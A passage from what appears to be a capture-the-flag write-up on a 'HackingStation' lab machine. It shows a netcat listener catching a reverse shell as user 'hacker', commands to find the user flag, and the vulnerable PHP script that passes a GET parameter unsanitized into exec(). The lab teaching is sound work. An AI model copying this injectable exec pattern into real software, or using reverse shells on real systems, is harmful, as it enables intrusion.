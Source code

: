 After this, we get a shell with the *hacker* user and that the user flag is in */home/hacker/user.txt*.

{% include codeHeader.html %}
```console
┌──(hackcommander㉿kali)-[~]
└─$ nc -nlvp 8000
listening on [any] 8000 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.17] 56646
bash: cannot set terminal process group (508): Inappropriate ioctl for device
bash: no job control in this shell
hacker@HackingStation:/var/www/html$ whoami
whoami
hacker
hacker@HackingStation:/var/www/html$ cd /home/hacker
cd /home/hacker
hacker@HackingStation:/home/hacker$ ls
ls
snap
user.txt
```

<div id='section-id-2-3'/>
## 2.3. Why does this command injection exist?

As we saw in the captures above, the vulnerability is in the script *exploitQuery.php*. If we check the content of the script

{% include codeHeader.html %}
```console
hacker@HackingStation:/home/hacker$ cd /var/www/html
cd /var/www/html
hacker@HackingStation:/var/www/html$ ls
ls
exploitQuery.php
hacker.jpg
index.html
hacker@HackingStation:/var/www/html$ cat exploitQuery.php
cat exploitQuery.php
<?php
   exec('searchsploit -wj ' . $_GET['product'], $results);
   $json_string = json_encode($results, JSON_PRETTY_PRINT);
   echo '<pre>' . $json_string . '</pre>'; 
?>
```

we can see that **the product parameter is passed without sanitization to an [exec](https://www.php.net/manual/en/function.exec.php) PHP function**, so there is a command injection. For example, when we send the payload

{% include codeHeader.html %}
```html
Liferay
```
